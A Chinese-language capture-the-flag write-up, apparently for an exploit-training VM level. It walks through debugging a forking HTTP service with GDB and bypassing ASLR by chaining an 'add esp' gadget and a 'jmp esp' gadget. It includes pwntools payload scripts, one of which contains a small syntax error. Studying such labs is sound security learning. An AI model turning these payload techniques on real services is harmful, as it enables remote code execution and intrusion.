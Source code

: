 ### 題目講解
這一題跟level00 的題目比起來少了 `printf("[debug] buffer is at 0x%08x :-)\n", buffer); :D` 這一行，且有開啓ASLR 。

### 所需知識
**網絡服務的進程模型**
```
父进程 (PID 1464)
├─ 监听端口 20001
├─ 等待客户端连接
├─ 收到连接请求时 → fork() 创建子进程
└─ 继续监听新的连接

子进程 (PID 2099) 
├─ 处理具体的HTTP请求
├─ 解析请求内容
├─ 调用 fix_path() 函数 ← 漏洞在这里
└─ 处理完毕后退出
```

**默認情況下**
```
GDB 附加到父进程 (PID 1464)
│
├─ Python 脚本发送攻击载荷
├─ 父进程收到连接 → fork() 子进程
├─ GDB 继续跟踪父进程 ← 问题在这里！
├─ 父进程回到监听状态（没有漏洞代码执行）
└─ 子进程处理请求并触发漏洞 ← 但GDB看不到！
```

**設置 follow-fork-mode child**
```
GDB 附加到父进程 (PID 1464)
│
├─ Python 脚本发送攻击载荷  
├─ 父进程收到连接 → fork() 子进程 (PID 2099)
├─ GDB 自动切换到跟踪子进程 ← 关键！
├─ 子进程执行 fix_path() 函数
└─ 断点被触发！GDB 可以调试漏洞利用过程
```
### 解題目思路
由於題目沒有像上一題泄露buffer 的位置，且ASLR 開啓。我們需要知道哪些寄存器在我們的控制之下。因此我們需要 gdb 來查看各個寄存器的内容。ASLR 開啓意味著buffer 的起始位置每次都會改變。
### 
```
1. ps auwx | grep 20001
2. gdb -q --pid=pid
3. set follow-fork-mode child # 讓gdb 跟對進程
4.  disas fix_path
5. b * 0x08049854 # break ret
6. continue
```
這裏注意一下: break ret, 如果執行完后 esp會 +4(在解題的時候忘記了這裏的 ret 直接卡了5個小時，才明白爲什麽 esp+0x230+0x4-esi)

**測試代碼**
```python
from pwn import *

HOST,PORT = "192.168.246.145",20000
p = remote(HOST,PORT)
payload = flat(
    "GET ",
    "A"*139,
    "B"*4*,
    " HTTP/1.1",
)
p.sendline(payload)
print(p.clean().decode('latin-1'))
p.interactive()
```
接下來 gdb hit 到我們 break 的地方

![alt text](image.png)
```
7. i r # 看哪一些寄存器有指向我們控制的寄存器
8. 發現到 esi 總是指向用戶輸入的尾端
```

**發現 gadgets**

```
0x0804905f: add esp, 0x230; pop ebx; pop edi; pop ebp; ret;
0x08049f4f: jmp esp;
```

由於esp 小於 esi，add esp,0x230 可以讓 esp 指向 esi 的後面，因此我們必須對齊
esp+0x4+0x230 - esi = offset


```python
payload = flat(
    "GET /",
    "A"*offset,
    add_esp,
    " HTTP/1.1",
    "B"*offset2,
    "C"*12,
    jmp_esp,
    shellcode
)
```
這樣就成功了